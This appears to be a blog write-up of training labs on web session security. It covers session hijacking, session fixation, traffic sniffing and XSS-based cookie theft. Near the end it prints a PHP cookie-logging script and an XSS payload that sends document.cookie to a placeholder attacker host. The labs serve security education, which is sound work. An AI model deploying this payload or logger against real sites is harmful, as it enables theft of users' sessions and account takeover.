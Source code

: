 ```yaml
---
title: Session Security
date: 2024-02-18 20:00 
categories: [HTTP]
tags: [SMB, RFI, RCE, PHP, FTP, Reverse Shell]
author: jamarapo
---
```


## Session Identifier Security
The sessions of a user are recorded with a Unique Session Identifier or an access token. If an attacker gains any of these can do a hijacking attack where the attacker has access to a session of a victim without authentication and uses victim authorization rights.

An attacker can obtain the session identifier with multiple methods: packing sniffing, identifying logs, prediction, and brute force.

The security of a session identifier depends on three factors:
- Validity Scop: The identifier must be valid for one session only.
- Randomness: The string of the identifier must use a solid random generation algorithm.
- Validity Time: The effective time of the identifier must have a period with expiration.
  
Sites where is stored the session identifiers:

- HTTP Referer header: The Referer header can expose a session identifier to other websites. Also, any session identifier in the URL can be seen in the browser's history.

- HTML: Session identifiers can be found in the browser's cache and in any intermediary proxies.

- SessionStorage: SessionStorage, an HTML5 feature, holds session identifiers until the tab or browser is closed. Data in SessionStorage is cleared when the page session ends, but it persists across page reloads.

- LocalStorage: LocalStorage, another HTML5 feature, retains session identifiers until deleted by the user. It survives browser process termination but is cleared in "private browsing" or "incognito" sessions when the last tab is closed.

### Session Attacks
**Session Hijacking**: Attackers exploit insecure session identifiers to gain unauthorized access to a user's session and impersonate them on a server.

**Session Fixation**: Attackers set a valid session identifier for a victim, tricking them into using it to log in. This allows the attacker to hijack the session.

**XSS (Cross-Site Scripting)**: Allows attackers to inject malicious scripts into web pages viewed by other users, potentially compromising their sessions.

**CSRF (Cross-Site Request Forgery)**: Forces authenticated users to unknowingly execute malicious actions on a web application, using their session identity.

**Open Redirects**: Attackers abuse a legitimate application's redirection functionality to redirect users to malicious sites, potentially compromising their sessions.

## Lab 1

![alt text](/assets/img/posts/SessionSecurity/image-2.png)

![alt text](/assets/img/posts/SessionSecurity/image-3.png)

![alt text](/assets/img/posts/SessionSecurity/image-4.png)

Using the cookie we can access to account without authenticate.

![alt text](/assets/img/posts/SessionSecurity/image-5.png)


## Session Fixation

Stage 1: At this stage, the attacker acquires a valid session identifier from the targeted application. In many cases, applications issue session identifiers to any user who accesses them, even without authentication. This means attackers can obtain a valid session identifier without needing to log in. Alternatively, attackers may create an account on the application to obtain a valid session identifier if account creation is possible.

Stage 2: Once the attacker has a valid session identifier, they may exploit a session fixation vulnerability. This occurs when the session identifier assigned to a user before logging in remains the same after logging in. If the application accepts session identifiers from URL query strings or post data, the attacker can manipulate these parameters to fixate a session. For instance, if a session-related parameter is part of the URL instead of the cookie header, the attacker can manipulate it to fixate the session.

Stage 3: In the final stage, the attacker lures the victim into using the session identifier fixed in the previous stage. This is accomplished by crafting a URL containing the manipulated session identifier and persuading the victim to visit it. When the victim accesses the URL, the application assigns the fixed session identifier to them. As a result, the attacker gains control over the victim's session. With the session identifier already known, the attacker can proceed with session hijacking attacks, exploiting the compromised session to perform unauthorized actions on behalf of the victim.

## Lab 2

![alt text](/assets/img/posts/SessionSecurity/image-6.png)

![alt text](/assets/img/posts/SessionSecurity/image-7.png)

![alt text](/assets/img/posts/SessionSecurity/image-8.png)

Sending this URL to the victim we can access to his account with a predifined session identifier controled by the attacker. This is posible because the cookie do not change post authentication.

### HttpOnly
 Is a flag that can be set on an HTTP cookie. When this flag is set on a cookie, it instructs the web browser that the cookie should not be accessible via JavaScript in the browser. In other words, the cookie will only be sent to the server with HTTP requests, but it cannot be accessed from client-side scripts such as JavaScript.

This security measure helps mitigate the risk of script-based cookie hijacking attacks, as it prevents an attacker from accessing the user's sensitive cookies through scripting vulnerabilities in the browser. Cookies with the "HttpOnly" flag are useful for protecting confidential information, such as session tokens or authentication credentials.

In summary, by setting the "HttpOnly" flag on a cookie:

- It prevents client-side scripts, such as JavaScript, from accessing the cookie.
- The cookie will only be sent to the server with HTTP requests, maintaining the security of sensitive information contained within the cookie.

## Obtaining Session Identifiers via Traffic Sniffing

Traffic sniffing is commonly employed by penetration testers to assess network security from within. By connecting their laptops or Raspberry Pis to available Ethernet sockets, testers can monitor network traffic, gaining insight into the traffic flow and potential attack targets. This technique necessitates both the attacker and victim being on the same local network, as HTTP traffic can only be inspected in this scenario. Remote traffic sniffing is not feasible.

HTTP traffic is particularly vulnerable to sniffing because it is transmitted unencrypted, allowing attackers to intercept sensitive data like usernames, passwords, and session identifiers. Encryption via SSL or IPsec significantly complicates or renders impossible the interception of such data.

In summary, obtaining session identifiers through traffic sniffing requires:

- The attacker and victim to be on the same local network.
- Unencrypted HTTP traffic.

Various packet sniffing tools exist, with Wireshark being a popular choice. Wireshark includes filtering capabilities for specific protocols such as HTTP, SSH, and FTP, as well as filtering by source IP address.
  
## Lab 3

![alt text](/assets/img/posts/SessionSecurity/image-2.png)

![alt text](/assets/img/posts/SessionSecurity/image-9.png)

![alt text](/assets/img/posts/SessionSecurity/image-3.png)

## Cross-Site Scripting (XSS)

XSS vulnerabilities are prevalent in web applications and allow attackers to execute arbitrary JavaScript code in a victim's browser. If exploited alongside other vulnerabilities, XSS can lead to complete compromise of a web application. However, in this context, we'll focus on exploiting XSS vulnerabilities specifically to obtain valid session identifiers, such as session cookies.

To exploit XSS for session cookie leakage, the following conditions must be met:

- Session cookies must be included in all HTTP requests.
- Session cookies must be accessible to JavaScript code, meaning the HTTPOnly attribute is absent.

![alt text](/assets/img/posts/SessionSecurity/image-10.png)

![alt text](/assets/img/posts/SessionSecurity/image-12.png)

![alt text](/assets/img/posts/SessionSecurity/image-11.png)

![alt text](/assets/img/posts/SessionSecurity/image-13.png)

### Part 2

``` php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>

```

``` javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>

```

![alt text](/assets/img/posts/SessionSecurity/image-14.png)

![alt text](/assets/img/posts/SessionSecurity/image-16.png)


![alt text](/assets/img/posts/SessionSecurity/image-15.png)